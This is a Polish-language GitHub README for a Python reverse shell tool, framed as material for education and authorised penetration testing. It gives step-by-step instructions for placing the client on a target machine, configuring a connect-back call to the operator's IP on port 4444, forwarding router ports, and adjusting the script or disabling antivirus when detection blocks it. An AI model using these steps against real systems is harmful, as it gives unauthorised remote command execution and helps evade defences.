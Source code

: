 
Reverse Shell Tool
📖 Opis
To repozytorium zawiera przykład implementacji narzędzia typu reverse shell, stworzonego w celach edukacyjnych oraz do przeprowadzania legalnych testów penetracyjnych. Reverse shell pozwala na zdalne zarządzanie komputerem poprzez połączenie inicjowane przez system docelowy.

🎯 Cel projektu
Edukacja w zakresie bezpieczeństwa IT.
Zrozumienie, jak działają narzędzia używane w testach penetracyjnych.
Praktyka w tworzeniu prostych narzędzi sieciowych.
🛡️ Ważne ostrzeżenie
To narzędzie powinno być używane wyłącznie:

W kontrolowanych środowiskach testowych.
Za zgodą właściciela systemu, na którym jest używane.
Użycie tego narzędzia do nielegalnych celów może być sprzeczne z prawem i skutkować odpowiedzialnością karną. Autor nie ponosi odpowiedzialności za niewłaściwe użycie tego oprogramowania.

⚙️ Funkcjonalność
Klient: Uruchamiany na systemie docelowym, łączy się z serwerem i wykonuje przesyłane komendy.
Serwer: Nasłuchuje połączeń od klienta, wysyła polecenia i odbiera odpowiedzi.
📋 Wymagania
Python 3.x
System operacyjny: Windows/Linux/MacOS
Uprawnienia sieciowe umożliwiające połączenie między klientem a serwerem.

🚀 Jak uruchomić

1. Uruchom serwer
Na komputerze testowym (Twoim):
Skopiuj kod
python3 server.py


2. Uruchom klienta
Na systemie docelowym:
Skopiuj kod
python3 client.py


📝 Przykład użycia
Serwer nasłuchuje na porcie 4444.
Klient łączy się z serwerem, otwierając powłokę umożliwiającą przesyłanie komend.
Wpisz komendę w serwerze (np. ls lub whoami), a odpowiedź zostanie przesłana z klienta.
🛠️ Zastosowanie
Testy penetracyjne: Sprawdzenie, czy system docelowy ma odpowiednie zabezpieczenia.
Edukacja: Nauka o technikach i metodach stosowanych w testach bezpieczeństwa.
📚 Materiały dodatkowe
OWASP Testing Guide
Hack The Box
TryHackMe
⚠️ Zastrzeżenia
Używaj tego narzędzia zgodnie z prawem.
Kod został stworzony wyłącznie w celach edukacyjnych.
Sprawdź przepisy obowiązujące w Twoim kraju dotyczące testów penetracyjnych.








Jak uruchomić na komputerze klienta

1. Przygotowanie środowiska
Na docelowym komputerze musi być zainstalowany Python 3.x. Jeśli nie jest zainstalowany, możesz go pobrać i zainstalować ze strony Python.org.

2. Skopiowanie skryptu klienta na komputer docelowy
Skopiuj plik client.py na komputer, na którym ma działać reverse shell.
Możesz użyć pendrive'a, sieci lokalnej, dysku chmurowego (np. Google Drive), lub pobrać plik z repozytorium GitHub.
Jeśli repozytorium jest publiczne, możesz pobrać je za pomocą polecenia git clone:
Skopiuj kod
git clone https://github.com/techwikr/Reverse-shell-w-pythonie

Otwórz terminal lub wiersz poleceń na komputerze docelowym i przejdź do folderu zawierającego client.py.

3. Konfiguracja klienta
Otwórz plik client.py w edytorze tekstowym.
Zmień adres IP i port na te, które odpowiadają Twojemu serwerowi:
python
Skopiuj kod
reverse_shell("192.168.1.100", 4444)  # Zamień 192.168.1.100 na swój adres IP

4. Uruchomienie serwera
Na swoim komputerze (serwer):

Uruchom plik server.py:

Skopiuj kod
python3 server.py

Upewnij się, że zapora sieciowa (firewall) na Twoim komputerze oraz router pozwalają na nasłuchiwanie na wybranym porcie (np. 4444).
5. Uruchomienie klienta na komputerze docelowym

Na komputerze docelowym uruchom klienta:


Skopiuj kod
python3 client.py

Po uruchomieniu klient nawiąże połączenie z Twoim serwerem, a Ty będziesz mógł przesyłać komendy.

6. Test połączenia
Na swoim serwerze wpisz komendę, np. ls (Linux/macOS) lub dir (Windows), aby zobaczyć listę plików w katalogu na komputerze docelowym.
Odpowiedź powinna pojawić się w terminalu serwera.

7. Zabezpieczenia i uwagi
Firewall i NAT: Jeśli serwer i klient znajdują się w różnych sieciach, może być konieczne skonfigurowanie przekierowania portów (port forwarding) na routerze serwera.
Antywirus: Niektóre programy antywirusowe mogą wykryć i zablokować działanie klienta. W takim przypadku należy dostosować skrypt lub wyłączyć antywirus w środowisku testowym.

